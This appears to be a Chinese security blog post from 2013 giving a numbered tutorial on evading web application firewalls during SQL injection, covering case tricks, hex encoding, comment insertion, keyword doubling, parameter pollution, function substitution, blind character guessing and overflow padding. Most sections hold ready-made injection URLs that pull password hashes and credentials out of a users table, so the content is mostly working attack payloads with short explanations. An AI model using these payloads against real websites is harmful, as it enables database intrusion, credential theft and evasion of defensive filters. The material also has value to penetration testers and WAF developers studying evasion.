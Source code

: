 title: SQL注入中的WAF绕过技术
tags:
  - php
  - 安全
  - 软件
id: 2551
categories:
  - 学习笔记
date: 2013-01-06 13:15:37
---

作者：bystander
博客：[http://leaver.me](http://leaver.me/)
论坛：法克论坛

目录

1.<span style="font-family: 宋体;">大小写绕过</span>

2.<span style="font-family: 宋体;">简单编码绕过</span>

3.<span style="font-family: 宋体;">注释绕过</span>

4.<span style="font-family: 宋体;">分隔重写绕过</span>

5.Http<span style="font-family: 宋体;">参数污染</span>(HPP)

6.<span style="font-family: 宋体;">使用逻辑运算符</span> or /and<span style="font-family: 宋体;">绕过</span>

7.<span style="font-family: 宋体;">比较操作符替换</span>

8.<span style="font-family: 宋体;">同功能函数替换</span>

9.<span style="font-family: 宋体;">盲注无需</span>or<span style="font-family: 宋体;">和</span>and

10.<span style="font-family: 宋体;">加括号</span>

11.缓冲区溢出绕过

<span style="font-size: large;"><span style="color: #0000ff;">1\. 大小写绕过</span></span>
这个大家都很熟悉，对于一些太垃圾的WAF效果显著，比如拦截了union,那就使用Union UnIoN等等。绕过

<span style="font-size: large;"><span style="color: #0000ff;">2.  简单编码绕过</span></span>
比如WAF检测关键字，那么我们让他检测不到就可以了。比如检测union,那么我们就用%55 也就是U的16进制编码来代替U, union写成 %55nION，结合大小写也可以绕过一些WAF，你可以随意替换一个或几个都可以。。

也还有大家在Mysql注入中比如表名或是load文件的时候，会把文件名或是表明用16进制编码来绕过WAF都是属于这类。

<span style="font-size: large;"><span style="color: #0000ff;">3.  注释绕过</span></span>
这种情况比较少，适用于WAF只是过滤了一次危险的语句，而没有阻断我们的整个查询
<div>
> /?id=1+union+select+1,2,3/*
</div>
比如对于上面这条查询，WAF过滤了一次union和select，那么我们在之前在写一个注释的语句，让他把注释里面的过滤掉，，并不影响我们的查询。。
所以绕过语句就是：
<div>
> /?id=1/*union*/union/*select*/select+1,2,3/*
</div>
还有一种和注释有关的绕过：
比如
<div>
> index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3,4….
</div>
可以看到，只要我们把敏感词放到注释里面，注意，前面要加一个！

<span style="font-size: large;"><span style="color: #0000ff;">4.   分隔重写绕过</span></span>
还是上面的例子，适用于那种WAF采用了正则表达式的情况，会检测所有的敏感字，而不在乎你写在哪里，有几个就过滤几个。。
我们可以通过注释分开敏感字,这样WAF的正则不起作用了，而带入查询的时候并不影响我们的结果
<div>
> /?id=1+un/**/ion+sel/**/ect+1,2,3--
</div>
至于重写绕过，适用于WAF过滤了一次的情况，和我们上传aaspsp马的原理一样，我们可以写出类似Ununionion这样的。过滤一次union后就会执行我们的查询了
<div>
> ?id=1 ununionion select 1,2,3--
</div>
<span style="font-size: large;"><span style="color: #0000ff;">5.   Http参数污染(HPP)</span></span>
比如我们有这样的语句：
<div>
> /?id=1 union select+1,2,3+from+users+where+id=1--
</div>
我们可以重复一次前面的id值添加我们的值来绕过，&amp;id=会在查询时变成逗号
<div>
> /?id=1 union select+1&amp;id=2,3+from+users+where+id=1--
</div>
这种情况成功的条件比较多，取决于具体的WAF实现。。

再给出一个例子说明用法
<div>
> /?id=1/**/union/*&amp;id=*/select/*&amp;id=*/pwd/*&amp;id=*/from/*&amp;id=*/users--
</div>
具体分析的话就涉及到查询语句的后台代码的编写了。
比如服务器是这样写的：
<div>
> select * from table where a=".$_GET['a']." and b=".$_GET['b']." limit ".$_GET['c'];
</div>
那我们可以构造这样的注入语句：
<div>
> /?a=1+union/*&amp;b=*/select+1,pass/*&amp;c=*/from+users--
</div>
最终解析为：
<div>
> select * from table where a=1 union/* and b=*/select 1,pass/*limit */from users--
</div>
可以看到，这种方式其实比较适合白盒测试，而对于黑盒渗透的话，用起来比较麻烦。但是也可以一试。

<span style="font-size: large;"><span style="color: #0000ff;">6\. 使用逻辑运算符 or /and绕过</span></span>
<div>
> /?id=1+OR+0x50=0x50
> /?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
</div>
顺便解释一下第二句话，从最里面的括号开始分析，select+pwd+from+users+limit+1,1 这句是从users表里查询pwd字段的第一条记录，比如是admin，
然后mid(上一句),1,1就是取admin的第一个字符，也就是a，
lower(上一句)就是把字符转换为小写，
然后ascii就是把a转换成ascii码，看等不等于74.

<span style="font-size: large;"><span style="color: #0000ff;">7.  比较操作符替换</span></span>
包括!= 不等于，&lt;&gt;不等于，&lt; 小于，&gt;大于，这些都可以用来替换=来绕过，
比如上一个例子，要判断是不是74，假设=被过滤，那么我们可以判断是不是大于73，是不是小于75，然后就知道是74了。。很多WAF都会忘了这个。

<span style="font-size: large;"><span style="color: #0000ff;">8.  同功能函数替换</span></span>
Substring()可以用mid(),substr()这些函数来替换，都是用来取字符串的某一位字符的。
Ascii()编码可以用hex(),bin(),也就是16进制和二进制编码替换
Benchmark() 可以用sleep()来替换，这两个使用在基于延时的盲注中，有机会给大家介绍
如果连这些都屏蔽了，还有一种新的方法
<div>
> substring((select 'password'),1,1) = 0x70
> substr((select 'password'),1,1) = 0x70
> mid((select 'password'),1,1) = 0x70
</div>
比如这三条，都是从password里判断第一个字符的值，可以用
<div>
> strcmp(left('password',1), 0x69) = 1
> strcmp(left('password',1), 0x70) = 0
> strcmp(left('password',1), 0x71) = -1
</div>
来替换，left用来取字符串左起1位的值，strcmp用来比较两个值，如果比较结果相等就为0，左边小的话就为-1，否则为1
还有我前几篇说过的group_concat 和concat和concat_ws也可以互相替换

<span style="font-size: large;"><span style="color: #0000ff;">9.    盲注无需or和and</span></span>
比如有这样一个注入点：
<div>
> index.php?uid=123
</div>
and or 被过滤了，其实有一种更直接的方法，我们直接修改123为我们的语句生成的，
<div>
> index.php?uid=strcmp(left((select+hash+from+users+limit+0,1),1),0x42)+123
</div>
123的时候页面是正确的，我们现在在盲猜hash的第一位，如果第一位等于0x42也就是B，那么strcmp结果为0，0+123=123，所以页面应该是正确的。否则就说明不是B，就这样猜，不用and 和or了。。

<span style="font-size: large;"><span style="color: #0000ff;">10\. 加括号</span></span>
<div>
> /?id=1+union+(select+1,2+from+users)
</div>
比如，上面这一条被WAF拦截了。可以试试加一些括号
<div>
> /?id=1+union+(select+1,2+from+xxx)
> /?id=(1)union(select(1),mid(hash,1,32)from(users))
> /?id=1+union+(select'1',concat(login,hash)from+users)
> /?id=(1)union(((((((select(1),hex(hash)from(users))))))))
> /?id=(1)or(0x50=0x50)
</div>
最后，个人能力毕竟有限，有些也一时想不起，想起来的话再补充。同时欢迎大家指正，补充。

<span style="font-size: large;"><span style="color: #0000ff;">11.缓冲区溢出绕过</span></span>
刚刚写着把这个给忘了。这个是从国外一个博客看到的。
<div>
> id=1 and (select 1)=(Select 0xAAAAAAAAAAAAAAAAAAAAA)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
> ,27,28,29,30,31,32,33,34,35,36–+
</div>
其中<span>0xAAAAAAAAAAAAAAAAAAAAA这里A越多越好。。一般要求1000个以上</span>